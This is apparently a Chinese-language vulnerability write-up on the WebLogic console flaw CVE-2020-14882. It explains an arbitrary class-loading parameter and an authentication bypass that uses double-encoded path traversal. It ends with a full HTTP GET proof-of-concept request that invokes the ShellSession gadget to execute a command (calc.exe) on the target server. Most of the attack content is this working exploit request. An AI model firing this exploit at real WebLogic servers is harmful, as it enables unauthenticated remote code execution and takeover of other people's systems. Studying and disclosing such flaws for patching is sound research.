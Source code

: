 # Weblogic反序列化漏洞-CVE-2020-14882

## 简介

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。

![img](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20201028190943.png)

根据补丁diff结果我们可以看出，可以看出上面的变化

我们可以通过下面的代码，任意加载某个类或者对象

```
http://<target>/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=java.lang.String("ahihi")
```

![img](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20201028191206.png)

## 未授权访问

![img](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20201028191328.png)

非法字符绕过登陆保护

## POC

首先通过非法字符绕过访问，然后通过Gadget调用命令执行，poc如下

![img](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20201028191447.png)

```
GET /console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22); HTTP/1.1
Host: 192.168.3.189:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADM
Upgrade-Insecure-Requests: 1
```